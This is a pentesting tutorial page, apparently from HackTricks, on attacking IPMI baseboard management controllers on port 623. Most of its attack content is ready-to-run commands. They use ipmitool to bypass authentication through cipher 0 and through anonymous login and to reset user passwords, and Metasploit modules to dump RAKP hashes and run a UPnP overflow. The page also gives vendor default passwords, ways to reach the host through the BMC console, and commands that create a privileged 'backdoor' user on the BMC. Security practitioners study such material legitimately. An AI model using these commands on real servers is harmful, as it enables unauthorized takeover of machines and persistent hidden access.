 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

### **Overview of IPMI**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** offers a standardized approach for remote management and monitoring of computer systems, independent of the operating system or power state. This technology allows system administrators to manage systems remotely, even when they're off or unresponsive, and is especially useful for:

- Pre-OS boot configurations
- Power-off management
- Recovery from system failures

IPMI is capable of monitoring temperatures, voltages, fan speeds, and power supplies, alongside providing inventory information, reviewing hardware logs, and sending alerts via SNMP. Essential for its operation are a power source and a LAN connection.

Since its introduction by Intel in 1998, IPMI has been supported by numerous vendors, enhancing remote management capabilities, especially with version 2.0's support for serial over LAN. Key components include:

- **Baseboard Management Controller (BMC):** The main micro-controller for IPMI operations.
- **Communication Buses and Interfaces:** For internal and external communication, including ICMB, IPMB, and various interfaces for local and network connections.
- **IPMI Memory:** For storing logs and data.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Default Port**: 623/UDP/TCP (It's usually on UDP but it could also be running on TCP)

## Enumeration

### Discovery

```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```

You can **identify** the **version** using:

```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```

### IPMI Vulnerabilities

In the realm of IPMI 2.0, a significant security flaw was uncovered by Dan Farmer, exposing a vulnerability through **cipher type 0**. This vulnerability, documented in detail at [Dan Farmer's research](http://fish2.com/ipmi/cipherzero.html), enables unauthorized access with any password provided a valid user is targeted. This weakness was found across various BMCs from manufacturers like HP, Dell, and Supermicro, suggesting a widespread issue within all IPMI 2.0 implementations.

### **IPMI Authentication Bypass via Cipher 0**

To detect this flaw, the following Metasploit auxiliary scanner can be employed:

```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```

Exploitation of this flaw is achievable with `ipmitool`, as demonstrated below, allowing for the listing and modification of user passwords:

```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```

### **IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval**

This vulnerability enables retrieval of salted hashed passwords (MD5 and SHA1) for any existing username. To test this vulnerability, Metasploit offers a module:

```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```

### **IPMI Anonymous Authentication**

A default configuration in many BMCs allows "anonymous" access, characterized by null username and password strings. This configuration can be exploited to reset passwords of named user accounts using `ipmitool`:

```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```

### **Supermicro IPMI Clear-text Passwords**

A critical design choice in IPMI 2.0 necessitates the storage of clear-text passwords within BMCs for authentication purposes. Supermicro's storage of these passwords in locations such as `/nv/PSBlock` or `/nv/PSStore` raises significant security concerns:

```bash
cat /nv/PSBlock
```

### **Supermicro IPMI UPnP Vulnerability**

Supermicro's inclusion of a UPnP SSDP listener in its IPMI firmware, particularly on UDP port 1900, introduces a severe security risk. Vulnerabilities in the Intel SDK for UPnP Devices version 1.3.1, as detailed by [Rapid7's disclosure](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), allow for root access to the BMC:

```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```


### Brute Force

**HP randomizes the default password** for its **Integrated Lights Out (iLO)** product during manufacture. This practice contrasts with other manufacturers, who tend to use **static default credentials**. A summary of default usernames and passwords for various products is provided as follows:

- **HP Integrated Lights Out (iLO)** uses a **factory randomized 8-character string** as its default password, showcasing a higher security level.
- Products like **Dell's iDRAC, IBM's IMM**, and **Fujitsu's Integrated Remote Management Controller** use easily guessable passwords such as "calvin", "PASSW0RD" (with a zero), and "admin" respectively.
- Similarly, **Supermicro IPMI (2.0), Oracle/Sun ILOM**, and **ASUS iKVM BMC** also use simple default credentials, with "ADMIN", "changeme", and "admin" serving as their passwords.


## Accessing the Host via BMC

Administrative access to the Baseboard Management Controller (BMC) opens various pathways for accessing the host's operating system. A straightforward approach involves exploiting the BMC's Keyboard, Video, Mouse (KVM) functionality. This can be done by either rebooting the host to a root shell via GRUB (using `init=/bin/sh`) or booting from a virtual CD-ROM set as a rescue disk. Such methods allow for direct manipulation of the host's disk, including the insertion of backdoors, data extraction, or any necessary actions for a security assessment. However, this requires rebooting the host, which is a significant drawback. Without rebooting, accessing the running host is more complex and varies with the host's configuration. If the host's physical or serial console remains logged in, it can easily be taken over through the BMC's KVM or serial-over-LAN (sol) functionalities via `ipmitool`. Exploring the exploitation of shared hardware resources, like the i2c bus and Super I/O chip, is an area that demands further investigation.

## Introducing Backdoors into BMC from the Host

Upon compromising a host equipped with a BMC, the **local BMC interface can be leveraged to insert a backdoor user account**, creating a lasting presence on the server. This attack necessitates the presence of **`ipmitool`** on the compromised host and the activation of BMC driver support. The following commands illustrate how a new user account can be injected into the BMC using the host's local interface, which bypasses the need for authentication. This technique is applicable to a wide range of operating systems including Linux, Windows, BSD, and even DOS.

```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```


## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
